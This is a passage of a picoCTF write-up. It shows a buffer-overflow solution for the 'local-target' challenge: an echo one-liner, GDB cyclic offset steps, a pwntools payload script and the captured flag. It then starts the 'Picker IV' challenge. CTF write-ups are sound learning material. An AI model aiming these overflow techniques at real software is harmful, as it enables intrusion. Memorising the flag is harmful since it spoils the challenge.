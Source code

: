 ```
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x41' | ./local-target
-- A contains of 24 bit. Which mean we already at stack. Then push /41(65) value into stack, that will call num = 65.
```
2. Using GDB (still new to me)
```
Launch using GDB
cylic 100
run + put cyclic value
cyclic -l RIP
cyclic -l (RBP)

For this we nee to use RBP since the flag call in main function. Still in the same stack. 
```
```
Payload
from pwn import * 
import os 

#io = remote('saturn.picoctf.net', 64428)
io = process('./local-target')



# Padding is offset - 8 bytes.
padding = 24

p = flat([
    asm('nop') * padding,
    0x41 # send value 65 here.
])

io.sendlineafter(b':', p)
io.interactive()

```

![image](https://hackmd.io/_uploads/ryo0MoIip.png)
==picoCTF{l0c4l5_1n_5c0p3_fee8ef05}==


---

### Picker IV
**Description**
Can you figure out how this program works to get the flag? Connect to the program with netcat: $ nc saturn.picoctf.net 63096 The program's source code can be downloaded here. The binary can be downloaded here.

```
 Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
The PIE is unable which mean the memory address will be fix everytime program run.
